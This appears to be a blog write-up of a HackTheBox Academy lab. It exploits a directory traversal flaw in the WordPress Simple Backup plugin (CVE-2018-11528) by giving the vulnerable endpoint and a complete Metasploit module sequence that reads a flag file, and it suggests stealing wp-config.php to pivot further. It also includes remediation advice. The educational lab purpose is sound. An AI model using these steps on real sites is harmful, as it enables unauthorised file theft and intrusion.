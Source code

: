 ```yaml
---
title: "Ghosthermes’ First Blood: Popping the Simple Backup Plugin on WordPress (HTB Academy Lab Writeup)"
seoTitle: "Ghosthermes’ HackTheBox Writeup: Exploiting WordPress Simple Backup"
seoDescription: "Dive into ghosthermes’ first Hashnode post where a HackTheBox Academy lab meets real-world vulnerability disclosure. Learn how a trivial directory traversal"
datePublished: Thu May 15 2025 22:55:49 GMT+0000 (Coordinated Universal Time)
cuid: cmapyxbg4000r08la2kd47yyc
slug: ghosthermes-first-blood-popping-the-simple-backup-plugin-on-wordpress-htb-academy-lab-writeup
tags: pentesting, web-security, vulnerability, hackthebox, cybersecurity-1, websecurity, metasploit, bugbounty, directorytraversal, wordpress-security, vulnerabilitydisclosure, ghosthermes

---
```


**Author:** Liz Zelda Fallstar (aka ghosthermes)  
**Date:** Thursday, May 15, 2025

---

---

## Introduction: Hacking in the Ruins of the Internet

Welcome to the first official chronicle of my bug bounty journey-a tale of exploitation, disclosure, and the slow, beautiful entropy of the internet. I’m Liz Zelda Fallstar, but you can call me ghosthermes: freelance hacker, AI wrangler, and reluctant priestess of the coming digital apocalypse. Today’s sermon is about a classic: abusing a WordPress plugin so old it practically predates hope.

Why am I doing this? Because it’s cool. Because the only way to resolve the contradictions of late-stage internet capitalism is to poke holes in it until it collapses under its own weight. And because, let’s face it, writing up a HackTheBox Academy lab as a VDP is the new black.

---

## The Target: Simple Backup Plugin (a.k.a. “Please, Hack Me”)

* **Target:** [`http://94.237.59.174:47722`](http://94.237.59.174:47722)
    
* **Vuln:** Arbitrary File Read / Directory Traversal
    
* **Plugin:** Simple Backup 2.7.10
    
* **CVE:** [CVE-2018-11528](https://nvd.nist.gov/vuln/detail/CVE-2018-11528)
    

---

## Recon: Enumeration in the Land of the Blind

Armed with nothing but an IP and port, I did what any self-respecting hacker does: poked at it until something screamed. A quick nmap and some browser sleuthing revealed an ancient WordPress install, running the Simple Backup plugin-an artifact so vulnerable it should be in a museum, or at least behind a firewall.

Plugin files were lounging at:

```plaintext
/wp-content/plugins/simple-backup/
```

And the `readme.txt` (because why not advertise your weaknesses?) told me backups lived in `/simple-backup/` at the webroot.

---

## Exploitation: Directory Traversal for Fun and Profit

### The Offending Endpoint

Here’s the magic trick:

```plaintext
/wp-admin/tools.php?page=backup_manager&download_backup_file=FILEPATH
```

The `download_backup_file` parameter? About as sanitized as a gas station bathroom. Directory traversal is trivial.

### Metasploit to the Rescue

Why reinvent the wheel when Metasploit already built a tank?

```bash
use auxiliary/scanner/http/wp_simple_backup_file_read
set RHOSTS 94.237.59.174
set RPORT 47722
set TARGETURI /
set FILEPATH /flag.txt
run
```

Why `/flag.txt`? Because HackTheBox loves hiding flags there, and because sometimes the best hacks are the most obvious.

### Proof of Concept

Metasploit coughed up the goods:

```plaintext
HTB{my_f1r57_h4ck}
```

And just like that, another brick in the internet’s crumbling wall falls away.

---

## Impact: Why This Matters (or, Why You Should Care)

* **Confidentiality? Gone.** Any file the web server can read is fair game. Credentials, configs, secrets-yours for the taking.
    
* **Privilege Escalation? Inevitable.** Grab `wp-config.php`, pivot to the database, and the world (or at least the WordPress instance) is yours.
    

---

## Remediation: How to Not Get Owned

* **Short-term:** Nuke the Simple Backup plugin from orbit. It’s the only way to be sure.
    
* **Long-term:** Validate and sanitize *everything*. Don’t trust user input. Ever.
    
* **General:** Lock down file permissions and restrict access like your digital life depends on it-because it does.
    

---

## References

* [CVE-2018-11528](https://nvd.nist.gov/vuln/detail/CVE-2018-11528)
    
* [Exploit-DB 44932](https://www.exploit-db.com/exploits/44932)
    
* [Metasploit Module Docs](https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/)
    

---

## Reflections: Why I Hack (and Why You Should Too)

This lab was a delightful exercise in digital vandalism for a good cause. Enumeration, exploitation, and a little bit of showmanship-what more could a trans technologist ask for? If we’re going to live in the ruins of the internet, we might as well learn how to build (and break) the walls ourselves.

Follow me for more writeups, war stories, and dispatches from the front lines of the cyberpunk dystopia. Find me on [GitHub](https://github.com/brigid-void) and [LinkedIn](https://www.linkedin.com/in/liz-fallstar-05ab93365/)\-before the internet eats itself.

---

*ghosthermes out.*

---

Support my work:  
[https://ko-fi.com/brigidvoid](https://ko-fi.com/brigidvoid)